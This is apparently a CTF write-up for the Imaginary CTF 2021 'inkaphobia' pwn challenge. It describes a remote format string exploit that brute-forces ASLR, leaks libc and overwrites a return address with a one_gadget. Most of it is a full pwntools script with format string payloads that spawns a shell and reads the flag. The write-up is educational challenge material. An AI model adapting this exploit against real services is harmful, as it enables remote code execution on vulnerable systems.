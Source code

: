 Inkaphobia was a challenge from Imaginary CTF 2021

it is basically a format string vulnerability to exploit remotely

the strategy to exploit was to use a stack pointer (reachable with the format string offsets)

that points to another stack pointer.

with this pointer the next stack pointer, to point on '_libc_ret_main_' return address

we use this new pointer, to write a one gadget instead of the return address..

I did it in 3 pass...

one pass to bruteforce the ASLR, to have an ASLR favorable to us.. (no bad moon rising)

when we have a good ASLR we use %*c to read 32bit low on stack address, and write it to the target pointers..

then dump a libc address , and write onto ret address using pwntools format string functions..

see in in action...

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/Imaginary.CTF.2021/pwn/inkaphobia.gif)

```python
from pwn import *
import sys
context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = context.binary = ELF('./inkaphobia')
libc = ELF('./libc.so.6')

def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]


for j in range(1000):
  if args.REMOTE:
    p = connect('chal.imaginaryctf.org', 42008)
  else:
    p = process('./inkaphobia')
  p.recvuntil('service!\n', drop=True)
  p.sendlineafter('value: ', '1\n1\n1\n1\n1\n1')		# pass rng
  payload = '%c'*71+'%p.'+'%c'*4+'%*c'+'%c'*12+'%65194c'+'%hn'+'%c'*11+'%6c'+'%hhnTOTO'
  p.sendlineafter('name?\n', payload)
  try:
    p.readuntil('0x', drop=True)
    leak = int(p.readuntil('.', drop=True),16) - 0x270b3
    if ((leak & 0xff000000)>>24) > 16:
      p.close()
      print(str(j))
      continue
    print('leak ='+hex(leak))
    sys.stdout.flush()
    p.recvuntil('TOTO', drop=True)
    print('TOTO OK..')
    p.sendlineafter('value: ', '1\n1\n1\n1\n1\n1')
    payload = '%153c%105$hhnAAAA%75$pBBBB%77$pCCCC'
    p.sendlineafter('name?\n', payload)
    p.readuntil('AAAA', drop=True)
    libc.address = int(p.readuntil('BBBB', drop=True),16) - 0x270b3
    print('libc.base ='+hex(libc.address))
    onegadgets = one_gadget('libc.so.6', libc.address)
    stack = int(p.readuntil('CCCC', drop=True),16)
    p.sendlineafter('value: ', '1\n1\n1\n1\n1\n1')
    p.sendlineafter('name?\n', fmtstr_payload(8, {stack - 0xf0: onegadgets[1]}))
    p.sendline('id;cat flag*')
    p.interactive()
    break
  except:
    print(str(j))
    p.close()

p.close()
```
